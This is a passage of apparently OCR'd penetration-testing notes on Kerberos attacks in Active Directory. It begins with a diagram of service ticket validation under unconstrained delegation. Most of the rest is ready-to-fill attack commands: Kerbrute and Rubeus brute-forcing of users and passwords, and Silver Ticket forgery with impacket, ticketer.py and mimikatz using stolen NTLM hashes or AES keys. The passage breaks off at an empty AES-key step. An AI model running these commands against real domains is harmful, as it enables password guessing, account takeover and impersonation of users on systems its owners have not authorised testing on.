 ```


5. The user connects to the server hosting the service on the appropriate port & presents the TGS (AP-REQ). The service opens the TGS ticket using its NTLM password hash.

      User                                                                                   Service
      TGS                                    ----------- AP-REQ ----------->           Validate & descrypt TGS
                                                                                       If unconstrained delegation enabled
                                                                                       service opens the TGS and saves the user's
                                                                                       TGT in LSASS for impersonation usage
```

# Common Kerberos Attacks
### Kerbrute for brute forcing discovery of users, passwords
- https://github.com/ropnop/kerbrute/releases
- https://github.com/Sq00ky/attacktive-directory-tools
```
> kerbrute userenum -d {domain_name} --dc {dc_ip} userlist.tx

# with a list of users
> .\Rubeus.exe brute /users:<users_file> /passwords:<passwords_file> /domain:<domain_name> /outfile:<output_file>

# check passwords for all users in current domain
> .\Rubeus.exe brute /passwords:<passwords_file> /outfile:<output_file>
```
### Silver Ticket (ST)
- Concept: The Silver ticket attack is based on crafting a valid TGS for a service once the NTLM hash of service is owned (like the PC account hash). Thus, it is possible to gain access to that service by forging a custom TGS as any user.
- linux:
```
# using impacket
> impacket-getTGT <domain>/<user>:<pass>
> impacket-getST -dc-ip <domain> -spn cifs/<domain-dc> '<domain>/<user>:<pass>'

# using ticketer
## To generate the TGS with NTLM
python ticketer.py -nthash <ntlm_hash> -domain-sid <domain_sid> -domain <domain_name> -spn <service_spn>  <user_name>
## To generate the TGS with AES key
python ticketer.py -aesKey <aes_key> -domain-sid <domain_sid> -domain <domain_name> -spn <service_spn>  <user_name>

# Use ticket
> export KRB5CCNAME=<ccache>
```
- windows:
```
# To generate the TGS with NTLM
mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /rc4:<ntlm_hash> /user:<user_name> /service:<service_name> /target:<service_machine_hostname>

# To generate the TGS with AES 128 key
```